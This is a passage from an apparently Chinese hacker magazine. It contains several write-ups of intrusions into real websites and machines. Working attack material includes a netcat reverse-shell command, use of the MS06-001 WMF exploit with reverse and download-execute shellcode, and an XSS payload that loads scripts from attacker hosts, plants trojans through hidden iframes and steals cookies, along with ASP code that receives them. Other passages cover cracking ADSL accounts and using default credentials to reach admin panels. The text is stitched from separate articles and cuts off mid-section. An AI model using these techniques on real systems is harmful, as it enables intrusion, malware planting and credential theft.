盘了，下面的工作重点就是要找到网站所在的目录，把我们可爱的小马复制过去，就可以用 IE 调出了。



图5

经过耐心的查找，总算确认了 `\\STARPARTY\d$\xxx` 是其站点目录。将 C 盘下的小马拷贝到网站目录下，运行后如图6所示，小马一切正常，接着就可以上传我们的海阳顶端木马了。



图6

访问我们的海阳顶端木马，如图7，再来上传 NC，测试一下权限是否够大，如图8。



图7



图8

显然，这个时候反弹回来的 SHELL 权限不是很大，看起来还是要从有 SQL 注入的数据库这台主机考虑。这时候我们想到添加计划任务，在 NB 命令文本中输入如下命令：`at \\STARPARTY 10:33 d:\xxx\20050119\nc.exe -e c:\winnt\system32\cmd.exe xxx.xxx.xxx.xxx 8088`。该命令的意思就是利用 at 命令在 10:33 分运行 \\STARPARTY 电脑上的 nc 程序，让 nc 绑定对方的 cmd.exe 发送到我们本地监听的 8088 端口上……执行顺利的话，我们在本地的 8088 端口上就会得到对方发过来的 CMDSHELL 了。



图9



图10

# 后记

本文并没有使用什么复杂的技术，现在有很多网站的目录和数据库不在同一台主机上，希望本文可以给菜鸟们提供一种思路，希望对大家有用！在此欢迎大家一起交流。

- （文字中涉及到的工具有：2.5、2006 海阳顶端木马、NC，已经收录于光盘中）
- 问：我使用的是 Windows XP 操作系统，通常我只用系统自带的全拼输入法和智能 ABC 输入汉字。遇到不会发音的汉字时，除了查字典外，还有什么方法输入？
- 答：可使用智能 ABC 的笔形输入法（如横、竖、撇、捺、折等部件）进行拆分输入，并在输入法属性中启用“笔形输入”。
- 问：安装 Kaspersky 杀毒软件后系统变慢甚至死机，怎么办？
- 答：安装前应先卸载其他厂商杀毒软件；若已冲突，可在安全模式下进行反安装/清理后再安装。

# 亲手盗墓斗蟹堡

≡阿布≡

前几天，我的小宠物生病了，由于我的那点儿宠物币和 Q 币早就花光了，小宠物一天到晚说它的肚子疼……于是我利用 ADSL 密码终结扫描了一些 ADSL 账户……把其内存储的 ADSL 账号和密码全给更改了，并保存后进行了重新启动……

今天我又来到互联星空盒子，听说它的气象预报挺准的，点开看了看（图1）……我修改 URL 来到根目录，使用的是 TOMCAT（图2）……又找到一个版块“加点天气”，我选择了“气象法规”版块，就留个 Message 吧……（图4）……



图3



图1



图4



图2


图5

在它的 Admin 目录中我还发现了一个名为 Count.htm 的文件，打开看了看很快发现，原来这个文件是调用 Script 统计代码用的，去掉后面的调用代码，使用 IE 打开它的统计系统，成功找到了后台！由于在统计代码中看到有 Admin 的参数，我就把账号和密码处都填上了 Admin（图6），可能是我的人品太好，竟然成功登录了，互联星空的访问量可真大啊（图7）！不过这个统计系统的后台功能太小了，也没有什么利用价值，但是我们可以控制它的统计系统了，还可以再加一个统计模块自己用，不过，我可不敢的！


图6


图7

我又回到首页的源代码中找路径，又看到一个类似于上面统计系统的地址，同样打开看看，他们俩是一个 IP 哦！我尝试去访问这个 IP，成功！但是其根目录下没有任何文件，于是，我猜想这个 IP 的服务器是互联星空专门用做统计的服务器，互联星空可真有钱啊！心里顿时感到了极度的不平衡！再来看这个统计系统的登录页面（图8），我试了 N 个密码，包括那个经典的“or''='”，但是都失败了，郁闷哦！它总是提示说超时。


图8

从错误的页面上看（图9），好像这个统计系统还是依靠 MS-SQL 数据库运行的哦！而且还有“数据管理”呢！我随便一点，晕死了，这个页面居然也不用登录就可以直接看（图10）！我想我们有可能拿到 WEBSHELL，在在线统计系统的调用代码中，加上一些“好代码”，互联星空的访问量又这么……如果那样的话，我的网络会不会因为灰鸽子上线的肉鸡太多而阻塞呢？！


图9

后来，我在其首页的源代码中找路径，有个 Vnet 的目录吸引了我的注意，打开看看，里面有很多目录（图11），但是不知道为什么他们各个目录中的文件都是一样的，为什么它放这么多一样的文件呢？只有去问互联星空了！


图10


图11

我真的没有想到，我们当地互联星空的安全状况居然是如此令人担忧！他们怎么会保持 TOMCAT 的默认设置呢？他们怎么不给后台登录页面加上密码和 IP 限制呢？他们怎么会不更改其后台的地址呢？互联星空，愿你一路走好！


# 打破 Windows 的美梦——轻松玩转 WMF 远程执行漏洞（MS06-001）

孟方明 & 刘会

## 一、漏洞简述

12 月底，网上曝光了 Windows 系统的一个非常严重的安全漏洞——Microsoft Windows 图形渲染引擎 WMF 格式代码执行漏洞。由于该漏洞影响面广、可远程执行任意代码，且很快出现蠕虫及木马利用，危险性极高。该漏洞不仅影响 Windows 2000/XP/2003，也波及 Windows 98/ME 等系统。详细信息可参见微软安全公告 ms06-001。

> 小编友情提示：Windows 3.x 及前后的 Windows 95 可视作爷爷辈系统，Windows 98/ME 可视作父辈系统，Windows 2000/XP/2003 属于 dad 级系统，而新生代 Vista 也已出现。不要着急，测试版已先行出现。

### 二、framework 重装出击

framework 是知名渗透工具集。该 WMF 漏洞利用模块已在其程序中发布并更新多个版本。可在 framework 程序中执行更新后使用相应模块。

首先在 framework 中打开 msfweb，并在地址栏输入 `http://127.0.0.1:55555`，如图1所示。


下拉找到“Windows XP/2003/Vista Metafile Escape() SetAbortProc Code Execution”并进入利用配置阶段，如图2。

点击目标选项中的默认目标进入 payload 选择。payload 可理解为 shellcode（有时包含 NOPS 滑块等），这里选择 `win32_reverse` 反向连接 payload，填写选项后执行 exploit。


测试方法是将恶意地址（如 `http://192.168.1.111:8080/`）发送给目标，诱导其使用 IE 打开即可，如图5。


点击“session 1”后即可进入 shell，会话权限可达管理员级别（后续见图6）。

图6

是不是成功了？由于本程序只是出于测试目的，因此我们用的反向连接 shellcode 在对方机器执行时候会打开一个 cmd 窗口。

图7

图8

## 三、exe版溢出也威猛

前边，我们使用 framework 已经测试成功了，但是面对 framework 的大体积，有的朋友也许更想要一个小巧玲珑的利用程序。为了满足大家的需要，我花了点时间分析了一下 framework 中的 ie_xp_pfv_metafile.pm 文件（此文件是该漏洞程序的主文件），用 C 语言重写了这个漏洞利用程序。其实分析 framework 中的 exploit 并不像大家想得那么难，只要懂点 Perl 的基本语法，加上 99% 的耐心，再加上 0.9% 的经验和 0.1% 的灵感，相信读者朋友也可以做到的。

我简单介绍一下粗略的分析方法：首先使用 Perl 编辑器打开 ie_xp_pfv_metafile.pm，然后粗略地看一下代码，找到关键的语句。我们以第一个公布出的 exploit 为例，如下：

```perl
'Payload' =>
{
  'Space' => 5081,
  'Keys'  => [ '--ws2ord', '--bind' ]
}
```

从上面这段代码我们可以看出，我们需要的 payload 的大小为 5081 字节。`my $content = $self->wmf_head . $shellcode . $self->wmf_foot;` 这一句最关键，告诉了我们如何触发这个漏洞。通过上面两段代码，我们就大体知道了漏洞的利用方法。下面就可以使用 C 语言来重写了。具体的过程我这里就不赘述了，有兴趣的朋友可以参看光盘中的代码。

该版本提供了两种 shellcode——反向连接型和下载执行型。我们先来测试一下反向连接的，程序运行界面如图7。打开 nc 监听本地 1314 端口，然后使用 IE 打开如下 URL：http://192.168.1.111:8080/any.wmf，后面的名字可以任意，结果如图8所示。

下载执行 shellcode 的测试方法大同小异，就留给各位读者来测试了，运行界面和对方下载执行后的截图如图9、图10。

图9

图10 中的 m00.exe 就是 shellcode 成功执行后下载下来的文件。各位读者在实际使用中，相信一定会将其换成自己心爱的木马或后门。

图10

# 四、尾声

文章到此就要告一段落了。本漏洞可以说是个很大的漏洞，影响也是很广的。而且由于本漏洞的一些特性，相信不久的将来，以此漏洞为网马的工具会络绎不绝地出现。

但是，本漏洞在触发的时候会出现一个预览图像的窗口，所以也很容易被发现。其他的我就不多说了，有待读者朋友自己去发掘了。（文中涉及到工具 framework、wmfexp.exe、wmfexp.c 已经收录于光盘中）

# 一个人的战争

# 和我一起到黑防去钓“肉鸡”

在《黑客X档案》2005年第11期上，linde318 朋友曾经详细地介绍了自己入侵黑防网站的经历。不过，自从那次入侵之后，黑防应该已经修复了网站上存在的安全漏洞了吧！于是，我决定到黑防的网站上去转转，看看他们的网站改变了多少！

记得以前去的时候，就发现了下载站的几个注入漏洞，还可以进行跨站脚本攻击，但是因为觉得没有什么大的利用价值就放弃了。看来主要的目标还得放在别人不注意的地方和比较新的系统上！不过这次比较幸运，黑防为了 VIP 招收方便，于是就建立了一个留言本……

留言本不知道是什么系统，不知是黑防自己写的还是从网上下载的。我们来看看广泛存在于留言本中的一个危险比较大的漏洞——跨站脚本漏洞。按照前文介绍的方法尝试，查看返回源码，寻找输入标记变量，判断过滤形式。

看到没有，很多的 `<ddd>` 哦。本来还打算做一些手法来绕过限制的，但是谁能想到它居然是一点过滤都没有啊！安全性做得这么差，也太丢人了吧！既然漏洞存在，那我们就继续玩下去吧！

```html
<script src=http://fenggou.net/mm.js></script>
```

根据上面的分析，我们知道站点存在跨站脚本漏洞，可以插入任意 HTML 代码。将脚本写入留言名字字段后发布，页面便会嵌入并执行脚本，从而可以控制访问者浏览器执行动作。

图1

图3

图2

图4

现在我们可以在黑防的页面做任何事了哦！大家可以通过更改 mm.js 的内容来做，我就来为黑X做一次广告吧……

# 一个人的战争

`document.images[0].src='http://www.hackerxfiles.net/img/123.jpg';` 我首先查看了它的 logo 地址，然后通过上面的代码控制它 img 属性为黑X的 logo 就可以轻松搞定了……关键是控制 mm.js 的内容！再来说说挂马吧！只要在页面嵌入 HTML 页面就可以了。

```javascript
document.write('<iframe style="display:none;" src="http://www.ilovesw.com/mm.htm"></iframe>');
```

图5 下方正文：说明 `http://www.ilovesw.com/mm.htm` 为木马地址，并讨论通过社会工程学与 Cookie 信息窃取等方式继续利用。

```javascript
// 构造写入代码
var s='http://www.fenggou.net/vipcookie.asp';
s=s+document.cookie;
code='<iframe style="display:none;" src="'+s+'"></iframe>';
```

```javascript
code=code+'" width=0 height=0></iframe>';
// 组串代码完成

document.write(code);
```

上面就是构造链接然后访问 `http://www.fenggou.net/vipcookie.asp`，我们再做个 vipcookie.asp 接收即可。代码如下：

```vb
<%
dim fso,file
Const ForReading=1, ForWriting=2, ForAppending=8
Set fso=Server.CreateObject("Scripting.FileSystemObject")
path=server.mappath("cookie.txt")
set file=fso.opentextfile(path,ForAppending,TRUE)
file.write(request.ServerVariables("QUERY_STRING"))
file.write vbCrLf
file.close
set file=nothing
Set fso=nothing
%>
```

后续正文：记录访问者 Cookie 信息，结合登录态可进一步控制浏览器并进行跨站脚本利用；最后指出漏洞修补并不复杂，关键在于安全意识与及时修复。

> （文章中涉及到的代码已经收录在光盘中）

- **问：** 我的金山毒霸2006经常提示查到病毒但无法彻底删除，如何处理？  
  **答：** 升级病毒库、暂时关闭系统还原、清理 IE 临时文件、重启后进安全模式并清理临时目录等。
- **问：** IE 不能正常使用，重装时提示已有该版本 IE 而拒绝安装怎么办？  
  **答：** 可在注册表相关项调整 installed 值，或使用 `rundll32.exe setupapi,InstallHinfSection DefaultInstall 132 %windir%\Inf\ie.inf` 方式修复。
- **问：** ADSL 上网时 IE 打开快但网页需多次刷新才能打开，是什么原因？  
  **答：** 多与系统参数有关，可在注册表 `InternetSettings` 下配置 `MaxConnectionsPerServer` 等连接参数（如 10/30/40/50）。

# 一个人的战争

期末考试终于结束了，望着监考老师离去的身影，我仿佛从倍受煎熬的地狱又回到了自由的天堂……打开信息一看，是小黑X说有个站点攻不下来，让我去练练手。

## 一、观察

我直接进去做了注入、旁注之类的测试，判断这并不是个人写出来的程序。查看网站底部版本号，明显是下载了别人的整套程序，如图1。

图1

那么要如何去查找这套源程序下载呢？关键字“版本：Ver6.0”，搜索后找到了程序下载地址，才知道这套程序原来叫作“花香盈路”。

## 二、分析

既然已经找到了，当然是把这套“花香盈路”下载回来，自己搭建测试环境，然后进行漏洞测试；但一晚上的检查并没有明显新发现。

## 三、追究

### 1. 第1个关键点

第二天，去看程序介绍页面，发现功能选项很多，如图2。

图2

有投票、公告、新闻、音乐、影视、文章、特效、下载、图片、链接、留言等二三十项功能。默认数据库地址、管理员和密码是否修改，成为后续突破点。

第十九根烟

密码没有更改？尝试对下载程序提交默认数据库地址，地址虽未改但密码已加密。又发现 eWebEditor 在线文本编辑器，查到其曾有漏洞，但实际版本较新，测试以失败告终。

### 2. 第2个关键点

想着想着，又看到了网站程序介绍，如图3。

图3

前面测试过主站默认管理员密码已改，但在线编辑系统管理员密码未改，顺利进入后台。不过后台功能简单，只是上传设置页面，仍未找到上传突破口，如图4。

图4

### 3. 第3个关键点

我又仔细看了网站程序介绍，这次发现重大突破点：eWebEditor 在线文本编辑器相关配置与数据库路径处理存在可尝试的方向。默认数据库地址如图6，显示的都是乱码，不用多说了，这就是数据库。

其中 cmd 是密码，可以自己设置，然后提交，显示保存成功了。

### 四、取得Shell

